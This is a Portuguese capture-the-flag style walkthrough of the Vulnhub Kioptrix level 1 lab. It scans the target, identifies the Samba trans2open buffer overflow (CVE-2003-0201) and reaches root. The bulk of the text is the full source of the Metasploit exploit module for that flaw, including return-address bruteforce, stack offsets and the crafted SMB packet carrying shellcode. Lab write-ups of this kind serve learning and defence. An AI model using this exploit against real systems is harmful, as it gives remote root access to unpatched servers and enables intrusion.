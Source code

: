 ```yaml
---
title: "Vulnhub Kioptrix level 1"
author: ["Pr3ach3r"]
date: "2023-10-06"
---
```

# Kioptrix level 1 Walkthrough

## Introdução

Esta foi minha primeiríssima máquina que consegui obter o root. O processo foi doloroso, porém, com alguma pesquisa é possível obter root facilmente.
Essa máquina é considerada fácil e o processo é bem linear.
A seguir, resumo o passo a passo para obter o root do sistema:

**IP da empresa**

10.0.2.18

## Enumeração de serviços

Nessa fase fiz uma varredura usando a ferramenta NMAP, muito usada para fazer varreduras de portas. Note que o serviço na porta 139 parece ser o mais vulnerável.

![imagem1](kio1.png)


Endereços IP      | Portas Abertas
------------------|----------------------------------------
10.0.2.18         | **TCP**: 22,80,111,139,443,32768


## Exploração

Nessa fase, exploro as falhas de segurança nos serviços vulneráveis. 

**Vulnerabilidade:** Trans2Open Buffer Overflow 

**Explicação:**
O estouro de buffer na função call_trans2open em trans2.c para Samba 2.2.x antes de 2.2.8a, 2.0.10 e versões anteriores de 2.0.x, e Samba-TNG antes de 0.3.2, permite que invasores remotos executem códigos arbitrários.

**Solução:**
Atualizar o serviço SAMBA para as versões mais recentes.

**Risco:** ALTO

**Prova de conceito:**
Código fonte do exploit usado:

```perl
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = GreatRanking

  include Msf::Exploit::Remote::SMB::Client
  include Msf::Exploit::Brute

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Samba trans2open Overflow (Linux x86)',
      'Description'    => %q{
          This exploits the buffer overflow found in Samba versions
        2.2.0 to 2.2.8. This particular module is capable of
        exploiting the flaw on x86 Linux systems that do not
        have the noexec stack option set.

        NOTE: Some older versions of RedHat do not seem to be vulnerable
        since they apparently do not allow anonymous access to IPC.
      },
      'Author'         => [ 'hdm', 'jduck' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2003-0201' ],
          [ 'OSVDB', '4469' ],
          [ 'BID', '7294' ],
          [ 'URL', 'https://seclists.org/bugtraq/2003/Apr/103' ]
        ],
      'Privileged'     => true,
      'Payload'        =>
        {
          'Space'    => 1024,
          'BadChars' => "\x00",
          'MinNops'  => 512,
          'StackAdjustment' => -3500
        },
      'Platform'       => 'linux',
      'Targets'        =>
        [
          # tested OK - jjd:
          # RedHat 7.2 samba-2.2.1a-4 - 0xbffffafc
          # RedHat 9.0 samba-2.2.7a-7.9.0 - 0xbfffddfc
          [ 'Samba 2.2.x - Bruteforce',
            {
              'PtrToNonZero' => 0xbffffff4, # near the bottom of the stack
              'Offset'       => 1055,
              'Bruteforce'   =>
                {
                  'Start' => { 'Ret' => 0xbffffdfc },
                  'Stop'  => { 'Ret' => 0xbfa00000 },
                  'Step'  => 256
                }
            }
          ],
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => '2003-04-07'
      ))

    register_options(
      [
        Opt::RPORT(139)
      ])

    deregister_options('SMB::ProtocolVersion')
  end

  def brute_exploit(addrs)

    curr_ret = addrs['Ret']
    begin
      print_status("Trying return address 0x%.8x..." %  curr_ret)

      vprint_status('Connect with SMB1 since it needs native_lm info')
      connect(versions: [1])
      smb_login

      if ! @checked_peerlm
        if smb_peer_lm !~ /samba/i
          fail_with(Failure::NoTarget, "This target is not a Samba server (#{smb_peer_lm}")
        end

        if smb_peer_lm =~ /Samba [34]\./i
          fail_with(Failure::NoTarget, "This target is not a vulnerable Samba server (#{smb_peer_lm})")
        end
      end

      @checked_peerlm = true


      # This value *must* be 1988 to allow findrecv shellcode to work
      # XXX: I'm not sure the above comment is true...
      pattern = rand_text_english(1988)

      # See the OSX and Solaris versions of this module for additional
      # information.

      # eip_off = 1071 - RH7.2 compiled with -ggdb instead of -O/-O2
      # (rpmbuild -bp ; edited/reran config.status ; make)
      eip_off = target['Offset']
      ptr_to_non_zero = target['PtrToNonZero']

      # Stuff the shellcode into the request
      pattern[0, payload.encoded.length] = payload.encoded

      # We want test true here, so we overwrite conn with a pointer
      # to something non-zero.
      #
      # 222       if (IS_IPC(conn)) {
      # 223          return(ERROR(ERRSRV,ERRaccess));
      # 224       }
      pattern[eip_off + 4, 4] = [ptr_to_non_zero - 0x30].pack('V')

      # We want to avoid crashing on the following two derefences.
      #
      # 116     int error_packet(char *inbuf,char *outbuf,int error_class,uint32 error_code,int line)
      # 117     {
      # 118       int outsize = set_message(outbuf,0,0,True);
      # 119       int cmd = CVAL(inbuf,smb_com);
      pattern[eip_off + 8, 4] = [ptr_to_non_zero - 0x08].pack('V')
      pattern[eip_off + 12, 4] = [ptr_to_non_zero - 0x24].pack('V')

      # This stream covers the framepointer and the return address
      #pattern[1199, 400] = [curr_ret].pack('N') * 100
      pattern[eip_off, 4] = [curr_ret].pack('V')

      trans =
        "\x00\x04\x08\x20\xff\x53\x4d\x42\x32\x00\x00\x00\x00\x00\x00\x00"+
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00"+
        "\x64\x00\x00\x00\x00\xd0\x07\x0c\x00\xd0\x07\x0c\x00\x00\x00\x00"+
        "\x00\x00\x00\x00\x00\x00\x00\xd0\x07\x43\x00\x0c\x00\x14\x08\x01"+
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"+
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90"+
        pattern

      # puts "press any key"; $stdin.gets

      sock.put(trans)
      handler

    rescue ::EOFError
    rescue ::Rex::Proto::SMB::Exceptions::LoginError, ::Interrupt, ::RuntimeError
      raise $!
    rescue ::Exception => e
      print_error("#{rhost} #{e}")
    end

    handler
    disconnect

  end
end


```
Na gravura a seguir pode-se ver onde encontrar o modulo no Metasploit Framework

![imagem2](kio2.png)

Na gravura a seguir pode-se ver como usar a ferramenta para explorar a falha e obter acesso root logo de primeira.

![imagem3](kio3.png)

## Pós exploração

Não foi necessário nenhum passo adicional, visto já obter acesso root já na exploração.

# Considerações finais

Como qualquer coisa na vida, o começo é sempre doloroso, porém com o tempo tudo vai ficando natural e se torna mais fácil. Nessa primeira máquina aprendi a fazer pesquisa no google de uma maneira mais focada nas vulnerabilidades. E também aprendi que é prerigoso deixar um serviço desatualizado rodando no servidor.


